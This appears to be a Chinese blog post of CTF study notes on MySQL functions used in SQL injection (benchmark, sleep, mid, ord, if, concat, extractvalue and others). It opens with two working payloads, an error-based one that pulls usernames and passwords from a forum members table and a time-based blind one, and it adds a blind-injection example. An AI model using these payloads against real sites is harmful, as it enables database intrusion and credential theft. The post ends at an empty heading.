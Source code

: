 title: 关于sqli注入的特殊函数
date: 2015-10-24 21:30:47
tags:
- Blogs
- sqli
categories:
- Blogs
---

最近几次参与的几个ctf比赛加上之前的对sql注入一段时间的研究，让我对sql注入有了新的认识，这里留存下几个函数的用法，到需要的时候可以拿出来用。
<!--more-->

首先贴出来两个payload，下面根据这两个payload分析每一个函数。

```
)+and+(select+1+from+(select+count(*),concat((select+(select+(select+concat(username,0x27,password)+from+cdb_members+limit+1)+)+from+information_schema.tables+limit+0,1),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)%23##
```

```
?l=1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),0x20) FROM INFORMATION_SCHEMA.SCHEMATA),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);
```
# 0x01 benchmark(x, y) #

基于时间注入的时候经常用得到
```
mysql > select benchmark(5000000,sha1(1));   //执行5000000次sha1(1)
+----------------------------+
| benchmark(5000000,sha1(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (2.58 sec)
```
是执行5000000对1的sha1加密，所以会有延迟。

# 0x02 sleep(x) #

和上面相同，同样是造成时间的延迟

# 0x03 cast（x as type) #

强制类型转换，把x转换为int char这样的

# 0x04 ifnull(expr1 , expr2) #

如果 expr1 不是 NULL，IFNULL() 返回 expr1，否则它返回 expr2。

```
mysql> SELECT IFNULL(1,0);
+-------------+
| IFNULL(1,0) |
+-------------+
|           1 |
+-------------+
1 row in set
```

# 0x05 mid(x,y,z) #
SQL MID() 函数用于得到一个字符串的一部分。这个函数被MySQL支持，但不被MS SQL Server和Oracle支持。
在SQL Server， Oracle 数据库中，我们可以使用 SQL SUBSTRING函数或者 SQL SUBSTR函数作为替代。

```
SELECT MID(ColumnName, Start [, Length])
FROM TableName
```
大概是指从字符串x中第y位取z位数
ps:这里的y是从1开始，并不是从0开始的
```
mysql> SELECT MID('NowaMagic', 5, 5);
+------------------------+
| MID('NowaMagic', 5, 5) |
+------------------------+
| Magic                  |
+------------------------+
1 row in set
```
# 0x06 ORD(x) #
ORD() 函数返回字符串第一个字符的 ASCII 值。
```
mysql> SELECT ORD('i');
+----------+
| ORD('i') |
+----------+
|      105 |
+----------+
1 row in set
```

# 0x07 ASCII(x) #
返回最左边的字符的字符串str的数值。如果str是空字符串，返回0。如果str为NULL，返回NULL
```
SQL> SELECT ASCII('d');
+---------------------------------------------------------+
| ASCII('d')                                              |
+---------------------------------------------------------+
| 100                                                      |
+---------------------------------------------------------+
1 row in set (0.00 sec)
```

# 0x08 substr(x,y,z) #
和上面的mid()相同，就不赘述了

# 0x09 if(x,y,z) #
如果x为真，则y，否则z
这里配合前面的函数就能构造出强大的盲注payload
```
mysql > select if((ord(mid((select version()),1,1))) like 53,1,benchmark(5000000,sha1(1))) a;
+---+
| a |
+---+
| 1 |
+---+
1 row in set (0.00 sec)
```
这里吧like换成<>都会变化

# 0x0a rand() #
生成随机数，在0~1之间

# 0x0b concat（x,y) #

SQL CONCAT函数用于将两个字符串连接起来，形成一个单一的字符串。
```
SQL> SELECT CONCAT('FIRST ', 'SECOND');
+----------------------------+
| CONCAT('FIRST ', 'SECOND') |
+----------------------------+
| FIRST SECOND               |
+----------------------------+
1 row in set (0.00 sec)
```
这里的concat中间可以加入符号，比如0x20

# 0x0c count() #
应该叫统计函数
COUNT(column_name) 函数返回指定列的值的数目
COUNT(*) 函数返回表中的记录数
COUNT(DISTINCT column_name) 函数返回指定列的不同值的数目：

# 0x0d procedure analyse() #

可以接在LIMIT后面的子句只有PROCEDURE、INTO OUTFILE可以利用，根据官方手册，analyse后面可以有两个参数，像这样analyse(1,1)

# 0x0e floor,ExtractValue,UpdateXml报错注入 #
floor(rand(0)*2))
select extractvalue这样的函数都会报错

# 0x0f Lpad(),rpad() #

